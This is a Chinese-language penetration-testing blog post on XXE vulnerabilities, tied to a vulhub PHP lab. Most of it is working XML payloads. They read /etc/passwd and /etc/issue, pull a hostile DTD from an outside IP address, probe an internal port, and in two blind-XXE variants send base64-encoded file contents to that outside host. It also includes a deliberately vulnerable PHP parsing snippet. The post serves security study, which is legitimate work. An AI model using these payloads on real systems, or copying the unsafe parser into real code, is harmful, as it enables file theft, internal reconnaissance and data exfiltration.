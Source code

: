 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x01 示例代码
实验环境：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe?_blank)  
simplexml_load_string.php
```
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
```

### 0x02 读取文件
* 内部声明实体

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

* 引用外部实体

evil.dtd中的内容为：```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY % xxe SYSTEM "http://114.115.183.86/evil.dtd">
  %xxe;
]>
<root>
  <name>&b;</name>
</root>
```

### 0x03 端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
  <!ENTITY http SYSTEM 'http://10.11.11.20:3306/'>
]>
<root>
  <name>&http;</name>
</root>
```

### 0x04 Blind-XXE
* 方法一：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/issue">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.dtd">
    %remote;
    %send;
]>
```
evil.dtd内容：
```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://114.115.183.86/?%file;'>"
>
%all;
```

* 方法二：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %xxe;   <!--执行%xxe，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>
```
evil.xml内容：
```
<!ENTITY % xxe "<!ENTITY send SYSTEM 'http://114.115.183.86/a.php?content=%file;'>">
```


<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691?_blank)
* [https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69?_blank)
